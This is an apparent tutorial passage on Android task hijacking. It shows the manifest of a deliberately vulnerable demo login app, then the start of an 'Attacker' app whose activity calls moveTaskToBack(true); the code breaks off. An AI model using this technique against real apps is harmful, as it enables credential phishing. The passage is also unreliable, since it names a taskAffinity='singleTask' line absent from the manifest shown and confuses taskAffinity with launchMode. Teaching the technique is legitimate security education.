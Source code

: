 after all of this just run the application, it would show a simple login screen where user can login using credentials and go on other page where user's credentials showed by page, now this is just simple app this could be any real life application, now let's see it's `AndroidManifest.xml` content
```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.secureapplication">

    <application
        android:allowBackup="true"
        android:icon="@mipmap/ic_launcher"
        android:logo="@mipmap/ic_launcher"
        android:label="@string/app_name"
        android:roundIcon="@mipmap/ic_launcher_round"
        android:supportsRtl="true"
        android:theme="@style/Theme.SuperSecureApp">
        <activity android:name=".LoggedIn"></activity>
        <activity android:name=".MainActivity" android:launchMode="singleTask">

            <intent-filter>
                <action android:name="android.intent.action.MAIN" />

                <category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application>
</manifest>
```
if we read code carefully we can see that it has this following line and here is Vulnerability occur
```xml
<activity android:taskAffinity="singleTask"/>
```
if you see this line of xml code in any decompile android application then you should have to test `Task Hijacking` on it

now we have developed a simple application called `SecureApplication` now we need to build our exploit application which would exploit this Vulnerabiliy, so go back to IDE and create new Application and call it `Attacker`

copy this `MainActivity.java` code and paste in `Attacker` app main activity code, moveTaskToBack(true) containing this activity to the back of the activity stack 
```java
package com.exploit.attackerapp;

import androidx.appcompat.app.AppCompatActivity;
import androidx.core.app.ActivityCompat;

import android.Manifest;
import android.content.Intent;
import android.content.pm.PackageManager;
import android.os.Build;
import android.os.Bundle;
import android.view.View;
import android.widget.EditText;
import android.widget.TextView;

import com.google.android.material.snackbar.Snackbar;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        moveTaskToBack(true);
```